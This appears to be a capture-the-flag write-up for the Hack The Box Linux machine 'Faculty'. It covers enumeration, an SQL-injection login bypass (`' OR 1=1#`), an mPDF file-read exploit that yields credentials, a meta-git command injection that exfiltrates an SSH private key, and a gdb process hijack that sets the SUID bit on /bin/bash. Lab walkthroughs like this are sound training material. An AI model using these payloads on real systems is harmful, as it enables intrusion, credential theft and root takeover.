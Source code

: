 # Faculty
### Linux Box

##### Start with an `nmap` scan that shows open ports 22 and 80. Heading over to port 80 we find a login page.

![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FtpBc3ngEj5mgbNZW914Q%2Fimage.png?alt=media&token=7fba467f-3ef9-4a6f-a159-03292b099278 "nmap results")

##### The login page was vulnerable to SQLi, but I couldn't extract any useful information. Next, I tried ffuf to enumerate directories and subdomains.
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST: FUZZ.faculty.htb" -u http://faculty.htb -mc 200
```
##### No subdomains but I found the `/admin/login` page. I was able to login with `' OR 1=1#` as the username.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FCg6itFHlBhhiOALJZP5r%2Fimage.png?alt=media&token=30dde0de-b2e9-4fe5-b80f-27395a94e1c5 "admin login")

##### I downloaded a pdf I found on the admin panel. I found the app was using mpdf. Using searchsploit, I found multiple vulnerabilites
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FprphWunbnrSB9vY4M32D%2Fimage.png?alt=media&token=5b78ff0c-0b6f-46b8-a589-bf2323480d49 "searchsploit results")

##### Using the exploit, I was able to grab a few files from the server. I found credentials for the user `gbyolo` in the `db_connect.php` file.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FvWeeHIjZNECM0EfQsnv0%2Fimage.png?alt=media&token=da855f14-a017-4844-bcf0-9be0d54d9222 "db_connect.php")

##### ssh into `gbyolo` using the found credentials
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2F33r9Xst9PFRyqnpjHyjG%2Fimage.png?alt=media&token=8be8d48b-6f5d-4748-9af7-8dcc7a9c08d0 "foothold")

##### In `/var/mail` I found a file titled `gbyolo`. It says that `gbyolo` can manage git repositories belonging to the faculty group. I also run `sudo -l`, with the found password, to see what sudo permissions gbyolo has.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2F33r9Xst9PFRyqnpjHyjG%2Fimage.png?alt=media&token=8be8d48b-6f5d-4748-9af7-8dcc7a9c08d0 "gbyolo file")

[This hackerone report was helpfull for the next step](https://hackerone.com/reports/728040)

##### Using that exploit, run `sudo -u developer meta-git clone 'sss | cat ~/.ssh/id_rsa'`
[alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FsKtY25lSommhunlw5kUf%2Fimage.png?alt=media&token=a33d4792-104b-44c8-8630-6ca691890b69 "id_rsa")

##### ssh into the developer account after giving `id_rsa` proper permissions. `chmod 600 id_rsa`
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FsUcm3E1PKy2j5hmiQXGB%2Fimage.png?alt=media&token=1edbae46-cb9c-4cc2-ae96-fb8cee137222 "kick some shell")

##### Run linpeas on the target for easy enumeration
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FUb7VQxgMw9z7rt8zbwr1%2Fimage.png?alt=media&token=3c5cfccc-1b1a-4ba6-b069-4362f6be46e4 "linpeas output")

##### You can also run `ps aux | grep root | grep python3`

##### Use gdb to hijack the process

```gbd
(gbd) call (void)system("chmod u+s /bin/bash")
(gbd) quit
```
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2F048527wX5mSLyoBItEyP%2Fimage.png?alt=media&token=42836c41-2e64-4fe5-ae62-479f06cab3ee "gbd")




